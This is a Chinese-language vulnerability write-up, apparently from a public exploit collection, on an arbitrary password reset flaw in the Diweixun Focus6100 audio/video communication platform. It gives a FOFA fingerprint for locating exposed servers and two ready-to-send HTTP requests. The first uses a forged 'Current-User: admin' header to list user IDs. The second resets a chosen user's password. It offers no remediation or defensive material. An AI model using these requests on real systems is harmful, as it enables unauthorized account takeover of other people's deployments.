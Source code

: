 # 迪威讯Focus6100音视频通讯平台存在任意用户密码修改漏洞

# 一、漏洞简介
迪威讯Focus6100音视频通讯平台存在任意用户密码修改漏洞

# 二、影响版本
+ 迪威讯Focus6100音视频通讯平台

# 三、资产测绘
+ fofa`web.icon=="bbc933535a6bfe478afb1fd0b3c470bf"`
+ 特征

![1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3.png](./img/MTvBdG6ERuHZMlFh/1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3-959691.png)

# 四 、漏洞复现
先获取ID

```java
GET /portal/rest/users HTTP/1.1
Host: 
Accept: application/json, text/plain, */*
Current-User: admin|Administrator
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Connection: close
```

![1727236976160-7d286d29-24f9-40e3-86d0-98105090b8a8.png](./img/MTvBdG6ERuHZMlFh/1727236976160-7d286d29-24f9-40e3-86d0-98105090b8a8-255472.png)

利用获取ID重置密码

```java
PUT /portal/rest/users/ff8080819200f6750192272f08bb0000/changepassword HTTP/1.1
Host: 
Content-Length: 32
Accept: application/json, text/plain, */*
Current-User: admin|Administrator
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Connection: close

e10adc3949ba59abbe56e057f20f883e
```

![1727237017987-fc40aacc-8356-4d97-ac60-c5e007fd5fe0.png](./img/MTvBdG6ERuHZMlFh/1727237017987-fc40aacc-8356-4d97-ac60-c5e007fd5fe0-606119.png)

重置后登录：

![1727237031040-5d6fa479-b51f-42b9-ad53-f0924196b2e2.png](./img/MTvBdG6ERuHZMlFh/1727237031040-5d6fa479-b51f-42b9-ad53-f0924196b2e2-561445.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/iucuo1rzm9ml0ugx>